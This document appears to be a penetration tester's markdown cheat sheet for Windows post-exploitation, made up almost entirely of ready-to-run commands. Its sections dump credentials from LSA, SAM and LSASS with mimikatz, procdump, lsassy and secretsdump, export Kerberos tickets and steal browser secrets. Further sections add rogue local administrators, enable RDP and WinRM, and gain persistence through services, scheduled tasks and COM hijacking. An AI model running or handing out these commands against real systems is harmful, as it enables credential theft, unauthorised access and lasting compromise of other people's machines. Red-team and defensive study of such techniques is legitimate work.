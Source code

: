 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe


https://github.com/login-securite/DonPAPI

DonPAPI.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable WinRM

```bash
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \\127.0.0.1 create ServiceName binpath=C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:127.0.0.1 process call create "C:\windows\system32\calc.exe"
```
>/node is optional


## Stop processus

Run this to get processid : `sc \\127.0.0.1 query ServiceName` 

then : `wmic /node:127.0.0.1 process where processid=<PID> call terminate` 
>/node is optional

and then `taskkill /S 127.0.0.1 /PID <PID> /f`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”

Other 

schtasks /create /S 127.0.0.1 /tn OBLIGE /tr "C:\windows\system32\calc.exe" /sc once /ST 18:30
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 

